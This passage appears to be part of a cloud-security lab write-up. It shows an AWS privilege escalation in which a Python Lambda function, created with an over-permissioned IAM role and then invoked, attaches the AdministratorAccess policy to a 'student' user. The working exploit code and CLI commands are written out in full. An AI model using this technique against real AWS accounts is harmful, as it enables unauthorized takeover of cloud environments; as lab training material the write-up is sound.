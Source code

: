 ```json
          }
        ]
      }
    }
  ],
  "AttachedManagedPolicies": [],
  "Tags": [],
  "RoleLastUsed": {}
}
```

Therefore, the role has the permissions to attach a policy to any user. Therefore, the attack path is as follows &rarr;

1. Write malicious code to build a Lambda function out of it such that the code grants the `student` user administrator privileges by assuming capabilities of the `lab11lambdaiam` role &rarr;

```python
# file name is lambda_exploit.py
import boto3

def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
                UserName = 'student',
                PolicyArn = 'arn:aws:iam::aws:policy/AdministratorAccess'
            )
    return response
```

   This is then zipped to create a deployment bundle as follows &rarr;

```bash
zip lambda_exploit.zip lambda_exploit.py
```

2. Create a function by passing the `lab11lambdaiam` role to it using the malicious code &rarr;

```bash
awsn lambda create-function --function-name lambda_exploit \
--runtime python3.8 --role "arn:aws:iam::397362381130:role/lab11lambdaiam" \
--handler "lambda_exploit.lambda_handler" --zip-file fileb://lambda_exploit.zip
```

3. Invoke the Lambda function &rarr;

```bash
# Invoke
awsn lambda invoke --function-name lambda_exploit out --log-type Tail

# Output will be in LogResult key in the returned JSON object.
# LogResult is base64 encoded and the file out contains request parameters
```

These steps grant the administrator privileges to the `student` user and this can be verified by creating a new user or listing the attached policies again and comparing with user detail list. This solves the lab.

---